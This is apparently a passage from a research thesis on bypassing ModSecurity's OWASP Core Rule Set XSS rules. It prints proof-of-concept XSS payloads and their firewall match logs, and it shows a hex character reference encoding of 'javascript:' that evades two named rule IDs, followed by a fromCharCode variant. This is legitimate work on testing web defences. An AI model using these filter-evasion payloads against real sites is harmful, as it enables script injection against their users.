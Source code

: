 \begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss injection blocked, label={lst:storedxssinjblocked}]
<payload><a href=javascript:alert('a')>ClickMeFor$</a></payload>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "259"] [id "941170"]<fileDetails>
<MatchedData>"javascript:alert('a')>ClickMeFor$<"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "357"] [id "941210"]<fileDetails>
<MatchedData>"javascript:a"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

On escaping the first \verb|a| in \verb|javascript:| using the HTML hex character reference, the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

This payload bypasses the rules with ids \verb|941170| (NoScript XSS InjectionChecker: Attribute Injection) and \verb|941210|(IE XSS Filters - Attack Detected).

As this result is promising, another iteration of applying this technique has been used in the multi iteration evaluation. The results are stated unter Section~\ref{sec:doublehtmlcharref}.

\subsubsection{From charcode}
\label{sec:charcodesingleiter}
As stated under Section~\ref{sec:fromcharcodetech}, a payload where the string containing malicious JavaScript statements was substituted by a call to \verb|String.fromCharCode()| was tested against the ModSecurity firewall using CRS4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=fromCharCode blocked, label={lst:fromcharcodeblocked}]
<payload>String.fromCharCode(^0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29^)</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"String.fromCharCode"</MatchedData>
\end{lstlisting}

